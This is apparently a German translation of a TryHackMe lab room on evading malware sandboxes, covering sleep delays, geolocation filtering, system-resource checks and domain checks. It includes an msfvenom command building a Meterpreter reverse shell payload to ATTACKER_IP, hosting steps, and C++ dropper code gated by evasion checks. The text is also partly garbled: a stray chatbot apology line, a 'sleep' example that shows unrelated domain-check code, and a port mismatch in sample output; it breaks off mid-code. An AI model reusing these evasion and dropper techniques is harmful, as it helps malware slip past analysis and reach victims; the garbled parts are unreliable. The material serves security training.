# Task 1 - Introduction
### Willkommen zur Sandbox-Evasion

Viele Unternehmen setzen eine „Verteidigung in der Tiefe“ ein, bei der Sicherheit in mehreren Schichten implementiert wird, damit, falls eine Schicht versagt, eine andere vorhanden ist, die ein Angreifer überwinden muss. In diesem Raum konzentrieren wir uns auf eine besondere Art der aktiven Verteidigung: Sandboxes. Sandboxes bieten eine sichere Möglichkeit, eine potenziell schädliche Datei zu analysieren und die Auswirkungen auf das System zu beobachten, um festzustellen, ob die ausführbare Datei bösartig ist oder nicht.

### Lernziele

In diesem Raum werden wir Sandboxes im Detail kennenlernen. Am Ende dieses Raums wirst du ein besseres Verständnis für die folgenden Themen haben:

- **Wie Malware-Sandboxes funktionieren**: Erfahre, wie Sandboxes zur Analyse von Malware eingesetzt werden.
- **Statische und dynamische Malware-Analyse**: Lerne die Unterschiede und Anwendungen dieser Analysemethoden kennen.
- **Häufige Methoden zur Sandbox-Evasion**: Entdecke gängige Techniken, um Sandbox-Analysen zu umgehen.
- **Entwicklung und Testen von Sandbox-Evasion-Methoden mit Any.Run**: Erlerne, wie du Sandbox-Evasionstechniken entwickelst und testest.

### Voraussetzungen

Für diesen Raum empfehlen wir Vorkenntnisse in folgenden Bereichen:

- [Windows APIs](https://tryhackme.com/room/abusingwindowsinternals)
- [C++ Programmierung](https://tryhackme.com/room/windowsinternals)
- [Active Directory](https://tryhackme.com/room/activedirectorybasics)

# Task 2 - An Adversary walks into a Sandbox
### Was ist Malware-Analyse?

Die Malware-Analyse ist der Prozess, bei dem eine verdächtige Datei untersucht wird, um herauszufinden, was sie auf Mikroebene (durch das Betrachten von Assembly-Code) und auf Makroebene (durch die Beobachtung der Systemaktivitäten) bewirkt. Dieser Prozess ermöglicht es dem Blue Team, ein besseres Verständnis für bösartige Programme zu erlangen, was ihnen bei der Entwicklung von Erkennungsmethoden helfen kann.

### Statische vs. Dynamische Analyse

Es gibt zwei Hauptmethoden, mit denen das Blue Team eine verdächtige Datei analysieren kann:

- **Statische Analyse**: Diese Methode beinhaltet das Betrachten des Codes auf Mikroebene (wie bereits erwähnt), indem Disassembler wie IDA oder Ghidra verwendet werden. Hierbei wird der Code ohne Ausführung des Programms analysiert.

- **Dynamische Analyse**: Hierbei wird beobachtet, was passiert, wenn die verdächtige Datei im System ausgeführt wird. Dazu kommen oft Analyse-Tools zum Einsatz, wie EDR-Software, Sysmon, ProcMon, Process Hacker und Debugger (zum Beispiel OllyDbg, WinDbg, x64Dbg) und viele mehr.

### Einführung in Sandboxes

Eine der kreativsten und effektivsten Methoden, die das Blue Team entwickelt hat, um verdächtige Dateien zu analysieren, gehört zur dynamischen Analyse. Diese Methode beinhaltet das Ausführen der Datei in einer containerisierten (oder virtualisierten) Umgebung, die als Sandbox bezeichnet wird. Je nach Sandbox-Auswahl kannst du möglicherweise anpassen, welche Version von Windows läuft, welche Software auf dem System installiert ist und vieles mehr.

Sandboxes bieten eine sichere und effektive Möglichkeit, zu überwachen, was eine verdächtige Datei macht, bevor sie auf einem Produktionssystem ausgeführt wird (oder bevor sie an ein Produktionssystem gesendet wird). Es gibt viele kommerzielle Sandboxes, die in verschiedenen Teilen eines Netzwerks eingesetzt werden können.  


**Im obigen Diagramm sind drei verschiedene Sandboxes dargestellt. Es ist nicht ungewöhnlich, dass in einer Unternehmensumgebung eine, zwei oder sogar drei Sandboxes vorhanden sind. Oft findest du sie an den folgenden Orten:**

- **Firewalls**
- **Mail-Servern**
- **Arbeitsstationen**

Jede Sandbox kann unterschiedlich arbeiten; zum Beispiel kann eine Firewall den Anhang in der E-Mail ausführen und beobachten, welche Art von Netzwerkkommunikation stattfindet, während eine Mail-Sandbox die E-Mail öffnet und überprüft, ob eine eingebettete Datei innerhalb der E-Mail einen Download über ein Protokoll wie SMB auslöst, um einen NetNTLM-Hash zu stehlen. Eine hostbasierte Anti-Virus-Sandbox könnte die Datei ausführen und nach bösartigem Programmverhalten oder Änderungen am System suchen.

Es gibt verschiedene Anbieter, die verschiedene Sandbox-Produkte herstellen, die von Blue Teamern in einem Unternehmensnetzwerk eingesetzt werden können. Hier sind einige beliebte Beispiele:

- **Palo Alto Wildfire** ([Firewall](https://www.paloaltonetworks.co.uk/products/secure-the-network/wildfire))
- **Proofpoint TAP** ([Email Sandbox](https://www.proofpoint.com/uk/products/advanced-threat-protection/targeted-attack-protection))
- **Falcon Sandbox** ([EDR/Workstation](https://www.crowdstrike.co.uk/products/threat-intelligence/falcon-sandbox-malware-analysis/))
- **MimeCast** ([Email Sandbox](https://www.mimecast.com/))
- **VirusTotal** ([Sample Submission Site](https://www.virustotal.com/))
- **Any.Run** ([Sample Submission Site](https://any.run/))
- **Antiscan.me** ([Sample Submission Site](https://antiscan.me/))
- **Joe Sandbox** ([Sample Submission Site](https://www.joesandbox.com/))

Im nächsten Abschnitt werden wir verschiedene Techniken kennenlernen, die von Malware-Autoren häufig verwendet werden, um ein Verständnis für einige der existierenden Umgehungstechniken zu erlangen.

Wir haben eine Windows-Entwicklungs-VM bereitgestellt, auf der du deine eigenen Sandbox-Umgehungstechniken entwickeln kannst. Du kannst auf die virtuelle Maschine mit den folgenden Zugangsdaten zugreifen:

- **Benutzername**: Administrator
- **Passwort**: TryHackMe123!

## Fragen:
Sandkästen sind eine Form der ______ Analyse.
```

```

Welche Art von Sandboxen analysieren Anhänge von E-Mails?
```

```

# Task 3 - Common Sandbox Evasion Techniques
Entschuldige bitte, ich werde mich wieder an deinen ursprünglichen Befehl halten. 

### Eine Einführung in die Sandbox-Evasion

Jetzt, da du eine allgemeine Vorstellung davon hast, was Malware-Sandboxes sind, können wir uns mit einigen Evasionstechniken auf hoher Ebene befassen. Wir werden dies in vier verschiedene Kategorien unterteilen; im nächsten Schritt werden wir vier verschiedene Evasionstechniken (eine aus jeder Kategorie) implementieren, damit du praktische Kenntnisse für deine Red-Team-Operationen erwirbst.

Wir werden die folgenden vier breiten Kategorien abdecken:

1. **Durch Sandboxes schlafen**
2. **Geolokalisierung und Geoblocking**
3. **Überprüfen von Systeminformationen**
4. **Abfragen von Netzwerkinformationen**

Diese sind von den grundlegendsten Techniken bis zu den fortschrittlichsten geordnet. Lass uns anfangen.

### Durch Sandboxes schlafen

Malware-Sandboxes sind oft auf eine Zeitbeschränkung begrenzt, um eine Überlastung der Ressourcen zu verhindern, was die Warteschlange der Sandboxes drastisch erhöhen könnte. Dies ist ein wesentlicher Aspekt, den wir ausnutzen können; wenn wir wissen, dass eine Sandbox nur fünf Minuten läuft, können wir einen Timer implementieren, der fünf Minuten schläft, bevor unser Shellcode ausgeführt wird. Dies kann auf verschiedene Arten erfolgen; eine gängige Methode ist es, die aktuelle Systemzeit abzufragen und in einem parallelen Thread zu überprüfen, wie viel Zeit vergangen ist. Nachdem die fünf Minuten vergangen sind, kann unser Programm mit der normalen Ausführung beginnen.

Eine weitere beliebte Methode ist es, komplexe, rechenintensive Mathematik durchzuführen, die eine bestimmte Zeit in Anspruch nehmen kann — beispielsweise die Berechnung der Fibonacci-Sequenz bis zu einer bestimmten Zahl. Denk daran, dass dies je nach Hardware des Systems mehr oder weniger Zeit in Anspruch nehmen kann. Die Maskierung deiner Anwendung ist generell eine gute Idee, um Anti-Virus-Erkennungen zu vermeiden, also sollte dies bereits in deinem Toolkit sein.

Achte darauf, dass einige Sandboxes eingebaute Schlaf-Funktionen ändern könnten; verschiedene Anti-Virus-Anbieter haben Blogposts veröffentlicht, die zeigen, wie man eingebaute Schlaf-Funktionen umgeht. Daher wird dringend empfohlen, eigene Schlaf-Funktionen zu entwickeln. Hier sind einige Blogposts zum Thema Umgehung von Schlaf-Funktionen:

- [Checkpoint Blog: Timing Evasions](https://evasions.checkpoint.com/src/Evasions/techniques/timing.html)
- [Joe Security Blog: Sleep Function Evasion](https://www.joesecurity.org/blog/660946897093663167)

### Geolokalisierung

Ein bestimmendes Merkmal von Sandboxes ist, dass sie oft außerhalb des Unternehmensstandorts und von Anti-Virus-Anbietern gehostet werden. Wenn du weißt, dass du TryHackMe, ein europäisches Unternehmen, angreifst und deine Binärdatei in Kalifornien ausgeführt wird, kannst du annehmen, dass die Binärdatei in einer Sandbox gelandet ist. Du kannst wählen, ob du einen Geolokalisierungsfilter in deinem Programm implementierst, der überprüft, ob der IP-Adressbereich vom Unternehmen, das du angreifst, oder von einem Wohnbereich stammt. Es gibt mehrere Dienste, die du zur Überprüfung dieser Informationen nutzen kannst:

- [ifconfig.me](https://ifconfig.me)
- [ARIN RDAP Lookup](https://rdap.arin.net/registry/ip/1.1.1.1)

IfConfig.me kann verwendet werden, um deine aktuelle IP-Adresse abzurufen, wobei zusätzliche Informationen optional sind. In Kombination mit ARINs RDAP kannst du den zurückgegebenen ISP in einem leicht analysierbaren Format (JSON) bestimmen.

Es ist wichtig zu beachten, dass diese Methode nur funktioniert, wenn der Host Zugang zum Internet hat. Einige Organisationen könnten eine Blockliste von bestimmten Domains erstellen, daher solltest du sicherstellen, dass diese Methode für die Organisation, gegen die du diese Technik anwenden möchtest, funktioniert.

### Überprüfen von Systeminformationen

Eine weitere äußerst beliebte Methode ist die Beobachtung von Systeminformationen. Die meisten Sandboxes haben typischerweise reduzierte Ressourcen. Ein beliebter Malware-Sandbox-Dienst, Any.Run, weist nur 1 CPU-Kern und 4 GB RAM pro virtueller Maschine zu.  


Die meisten Arbeitsstationen in einem Netzwerk verfügen typischerweise über 2-8 CPU-Kerne, 8-32 GB RAM und 256 GB bis über 1 TB Speicherplatz. Dies hängt stark von der Organisation ab, die du angreifst, aber allgemein kannst du mit mehr als 2 CPU-Kernen pro System und mehr als 4 GB RAM rechnen. Mit diesem Wissen können wir unseren Code so anpassen, dass grundlegende Systeminformationen abgefragt werden (Anzahl der CPU-Kerne, Menge des RAM, Festplattengröße usw.).

Hier ist keine vollständige Liste, aber hier sind einige zusätzliche Beispiele für Dinge, auf die du filtern könntest:

- Seriennummer des Speichermediums
- PC-Hostname
- BIOS/UEFI-Version/Seriennummer
- Windows-Produktschlüssel/OS-Version
- Netzwerkadapter-Informationen
- Virtualisierungsprüfungen
- Aktuell angemeldeter Benutzer
- und vieles mehr!

### Netzwerkinformationen abfragen

Die letzte Methode ist die offenste Methode, die wir behandeln werden. Aufgrund ihrer Offenheit gilt sie als eine der fortschrittlicheren Methoden, da sie das Abfragen von Informationen über die Active Directory-Domäne umfasst.

Fast keine Malware-Sandboxes sind in eine Domäne integriert, daher ist es relativ sicher anzunehmen, dass, wenn die Maschine nicht in eine Domäne integriert ist, sie nicht das richtige Ziel ist! Du kannst jedoch nicht immer ganz sicher sein, daher solltest du einige Informationen über die Domäne sammeln, um auf der sicheren Seite zu sein. Es gibt viele Objekte, die du abfragen kannst; hier einige Beispiele:

- Computer
- Benutzerkonten
- Letzte Benutzeranmeldungen
- Gruppen
- Domain Admins
- Enterprise Admins
- Domain Controller
- Dienstkonten
- DNS-Server

Diese Techniken können in der Schwierigkeit variieren; daher solltest du überlegen, wie viel Zeit und Mühe du in den Aufbau dieser Evasion-Methoden investieren möchtest. Eine einfache Methode, wie das Überprüfen der Umgebungsvariablen des Systems (dies kann mit `echo %VARIABLE%` oder um alle Variablen anzuzeigen, mit dem Befehl `set` durchgeführt werden) nach einem Element wie dem LogonServer, LogonUserSid oder LogonDomain, kann viel einfacher sein als die Implementierung einer Windows-API.

### Die Bühne vorbereiten

Jetzt, da du ein besseres Verständnis davon hast, welche Arten von Sandbox-Bypass-Methoden existieren, werden wir im nächsten Schritt einige dieser Sandbox-Bypässe implementieren.

Bevor wir zum nächsten Schritt übergehen, beginnen wir mit einem einfachen Dropper, der Shellcode von einem Webserver (speziell von /index.raw) abruft, in den Speicher injiziert und den Shellcode ausführt. Es ist wichtig zu beachten, dass aller Shellcode mit MSFVenom im Rohformat generiert werden muss und 64-Bit, nicht 32-Bit, sein muss. Er kann mit folgendem Befehl generiert werden.
```shell
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```

Hier ist die Übersetzung:

Der Shellcode sollte dann auf der AttackBox über einen beliebigen HTTP-Server gehostet werden. Das Modul `http.server` von Python3 ist sehr portabel und flexibel und eignet sich gut für diese Aufgabe. In der realen Welt könnten Sie Ihren Shellcode auf Ihrem C2-Server hosten. Für die Zwecke des Labors verwenden wir die AttackBox ohne C2-Server.

Der an diese Aufgabe angehängte Code wurde mit Visual Studio 2019 (oder höher) getestet und kompiliert. Laden Sie die Datei `dropper.cpp` herunter und öffnen Sie sie. Es ist wichtig zu beachten, dass es mehrere Platzhalterwerte in den Zeilen 16, 22, 24, 27 und 33 gibt, die Sie aktualisieren müssen, damit der Code ordnungsgemäß funktioniert. Nachdem Sie die Werte geändert haben, kompilieren Sie den Code für eine 64-Bit-Version.

## Fragen:

Lesen Sie die oben stehende Aufgabe, um mehr über Sandbox-Evasiotechniken zu erfahren.
```
Keine Anwort nötig
```

Laden Sie die Aufgabendateien herunter und ändern Sie die .cpp-Datei, um den von MSFVenom generierten Shellcode abzurufen.
```
Keine Anwort nötig
```

Welche Sandbox-Evasiemethode würden Sie verwenden, um eine Sandbox zu umgehen, die nur für eine kurze Zeit läuft?
Hinweis: Die meisten Sandboxes dürfen nur für eine kurze Zeit laufen.
```

```

Welche Sandbox-Evasiemethode würden Sie verwenden, um die Systeminformationen der Sandbox auf virtualisierte Geräte zu überprüfen?
Hinweis: Sandboxes laufen normalerweise mit begrenzten Ressourcen und virtualisierten Geräten.
```

```

# Task 4 - Implementing Various Evasion Techniques
### Eintauchen in die Sandbox-Evasion

Mit diesem Basiscode beginnen wir unsere erste Erkundung in der Welt der Sandbox-Evasion. Wir starten mit unserer Schlafmethode, da sie die einfachste ist.

### Ein Nickerchen machen

Wir können unseren Vorlagen-Code aus der vorherigen Aufgabe nehmen und eine Sleep-Anweisung für 120.000 Millisekunden hinzufügen. Dies entspricht ungefähr 120 Sekunden oder 2 Minuten. Generell möchten Sie eine Zeit näher bei 5 Minuten wählen, um sicherzugehen; jedoch reicht für Testzwecke eine Dauer von 2 Minuten aus. Wir fügen nun unsere Sleep-Anweisung in die Hauptfunktion ein:

```cpp
int main() {
    if (isDomainController == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
}
```

**Testen unseres Codes**

Nachdem dies erledigt ist, können wir den Code kompilieren und auf [Any.Run](http://any.run/) hochladen. Sie können die folgenden Tests durchlesen und deren Verhalten auf [Any.Run](http://any.run/) beobachten, indem Sie den Links folgen. Dies wird als unser Testfeld für Sandbox-Evasion dienen, da es uns hochdetaillierte Informationen liefert. Überprüfen Sie die beiden Ausführungen:

- [Sleep Bypass](https://app.any.run/tasks/0799e9b3-dddc-4838-ba2d-c95fc0a7e63b)
- [Kein Sleep Bypass](https://app.any.run/tasks/ad3cf5b4-1bdf-4005-8578-507334f5c8ac)

Wenn wir die beiden Ergebnisse nebeneinander betrachten, stellen wir fest, dass in unserem „schlafenden“ Lauf keine Aktivität stattfindet.  


In unserem "nicht-schlafenden" Lauf sehen wir, dass eine HTTP-Anfrage an Cloudflare gesendet wird.  


Herzlichen Glückwunsch! Wir haben erfolgreich unsere erste Sandbox-Evasionstechnik erstellt. Auch wenn es sich um eine einfache Technik handelt, ist sie unglaublich mächtig und hat uns ermöglicht, die einminütige Zeitgrenze von Any.Run zu umgehen. Wie im letzten Task erwähnt, kann diese Methode aufgrund verschiedener Blogposts, die zeigen, dass Blue Teamers Techniken zum Umgehen von Schlaf-Timern erstellen können, möglicherweise nicht immer funktionieren. Eine bessere Implementierung wäre es, Rechenzeit durch aufwendige mathematische Berechnungen zu verschwenden.

### Geolocation-Filterung

Als nächstes werden wir eine Methode zur Umgehung der Ausführung unseres Shellcodes in einer Sandbox nutzen: Geolocation-Blockaden. Glücklicherweise können wir einen Großteil des Codes, der bereits für uns geschrieben wurde, wiederverwenden. Teile der Funktion „downloadAndExecute()“ können wiederverwendet werden. Wir werden die folgenden Komponenten wiederverwenden:

- Website-URL (ehemals die Variable `c2URL`)
- Internet-Stream (ehemals die Variable `stream`)
- String-Variable (ehemals die Variable `s`)
- Pufferspeicher (ehemals die Variable `Buff`)
- Bytes gelesen (ehemals die Variable `unsigned long bytesRead`)
- Schließlich die Funktion [`URLOpenBlockingStreamA`](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775127(v=vs.85))

**Integration in unseren Code**

Das übersetzt sich in eine tatsächliche Funktion wie folgt:

```cpp
BOOL checkIP() {   
    // Deklariere die Website-URL, die wir besuchen möchten
    const char* websiteURL = "<https://ifconfig.me/ip>";   
    // Erstelle einen Internet-Stream zum Zugriff auf die Website
    IStream* stream;   
    // Erstelle eine String-Variable, in der wir die von der Website empfangenen Daten speichern
    string s;   
    // Erstelle einen Speicherplatz, in dem wir unsere IP-Adresse speichern
    char buff[35];   
    unsigned long bytesRead;   
    // Öffne einen Internet-Stream zur Remote-Website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
    // Solange Daten vom Webserver gesendet werden, schreibe sie in den Speicher
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
    // Vergleiche, ob der String der IP-Adresse des Opfers entspricht. Wenn ja, gib TRUE zurück. Andernfalls, gib FALSE zurück.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
        return FALSE;   
    }
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Deklariere die erforderlichen Variablen, die oben erwähnt wurden.
2. Öffne einen Internet-Stream mit der Funktion `URLOpenBlockingStreamA`, um die aktuelle IP-Adresse abzufragen.
3. Schreibe den Datenstrom, der von der Funktion `URLOpenBlockingStreamA` zurückgegeben wird, in den Speicher.
4. Füge die Daten aus dem Speicherpuffer zu einer String-Variable hinzu.
5. Überprüfe, ob die String-Daten der IP-Adresse des Opfers entsprechen.
6. Wenn ja, gib TRUE zurück; wenn nein, gib FALSE zurück.

Nun müssen wir unsere Hauptfunktion ändern, um unsere neu erstellte Funktion zu nutzen:

```cpp
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
}
```

Der obige Code ruft die neue Funktion `checkIP()` auf, und wenn die IP-Adresse TRUE zurückgibt, wird die Funktion `downloadAndExecute()` aufgerufen, um den Shellcode von unserem C2-Server abzurufen. Wenn FALSE, wird "HTTP/418 - I'm a Teapot!" zurückgegeben.

**Testen unseres Codes**

Nun, da wir unsere zweite Sandbox-Evasionstechnik abgeschlossen haben, ist es sehr wichtig zu wissen, dass dies eine unglaublich häufige TTP (Taktik, Technik und Verfahren) ist, die von Bedrohungsakteuren verwendet wird. Sowohl APTs als auch Red Teams verwenden oft Dienste, um die "Abuse Info" einer IP-Adresse zu überprüfen, um Informationen über eine IP-Adresse zu sammeln und zu bestimmen, ob es sich um ein legitimes Unternehmen handelt oder nicht. Any.Run ist sich dieser Anti-Sandboxing-Technik bewusst und hat sie in unserem Fall sogar markiert. Die detaillierten Ergebnisse können unter den folgenden Links eingesehen werden:

- [Eine mit IP-Adressfilter](https://app.any.run/tasks/dbc2e81a-d7da-4ee5-a628-a5d2d17a0c1a)
- [Eine ohne IP-Adressfilter](https://app.any.run/tasks/6c721d61-b06a-4497-84fd-1aea34671085)

Wenn man sich die beiden Ergebnisse ansieht, kann man feststellen, dass ifconfig.me als "fragwürdige/potentiell bösartige" Seite markiert ist, die zur Überprüfung der externen IP-Adresse verwendet wird. Tatsächlich hat diese Sandbox-Evasion-Methode unsere Bewertung verschlechtert, sodass sie als letzter Ausweg oder mit einem kürzlich eingeführten/benutzerdefinierten IP-Adressprüfserver verwendet werden sollte. Der vollständige Bericht ist [hier](https://any.run/report/c98a60e5d0390ba4ad784b76ec0ce3602272452ffb44ce73dbb849906f2cff4d/dbc2e81a-d7da-4ee5-a628-a5d2d17a0c1a) zu finden.  




Wie Sie nun wissen, sind nicht alle Sandbox-Umgehungstechniken in bestimmten Situationen hilfreich. Sie müssen sorgfältig auswählen, welche Umgehungstechniken Sie implementieren, da einige mehr schaden als nützen können.

### Systeminformationen Überprüfen

Wir beginnen mit der Kategorie der Systeminformationen – der Menge des RAMs, den ein System hat. Es ist wichtig zu beachten, dass Windows Daten in einem nicht standardmäßigen Format misst. Wenn Sie jemals einen Computer gekauft haben, der mit „256 GB SSD-Speicher“ beworben wurde, hatten Sie nach dem Einschalten wahrscheinlich näher an 240 GB. Das liegt daran, dass Windows Daten in Einheiten von 1024 Bytes anstatt 1000 Bytes misst. Das kann sehr schnell verwirrend werden. Glücklicherweise arbeiten wir mit so kleinen Mengen an Speicher, dass die Genauigkeit eher eine „bestmögliche Schätzung“ als eine exakte Zahl sein kann. Nun, da wir das wissen, wie können wir feststellen, wie viel Speicher im System installiert ist?

**Systemspeicher Überprüfen**

Glücklicherweise ist es relativ einfach herauszufinden. Wir müssen nur die Windows-Header-Datei einbinden und eine spezifische Windows-API, [GlobalMemoryStatusEx](https://docs.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-globalmemorystatusex), aufrufen, um die Daten für uns abzurufen. Um diese Informationen zu erhalten, müssen wir die [MEMORYSTATUSEX](https://docs.microsoft.com/en-us/windows/win32/api/sysinfoapi/ns-sysinfoapi-memorystatusex)-Struktur deklarieren und dann die Größe des `dwLength`-Members auf die Größe der Struktur setzen. Nachdem das erledigt ist, können wir die Windows-API `GlobalMemoryStatusEx` aufrufen, um die Struktur mit den Speicherinformationen zu füllen.

In diesem Szenario sind wir speziell an der Gesamtmenge des physischen Speichers interessiert, der im System installiert ist, also drucken wir das `ullTotalPhys`-Member der `MEMORYSTATUSEX`-Struktur aus, um die Größe des installierten Speichers in Bytes zu erhalten. Wir können dann durch 1024³ teilen, um den Wert des Speichers in GiB zu erhalten. So sieht das in C++ aus:

```cpp
#include <iostream>
#include <Windows.h>
using namespace std;

int main() {
    // Deklariere die MEMORYSTATUSEX-Struktur    
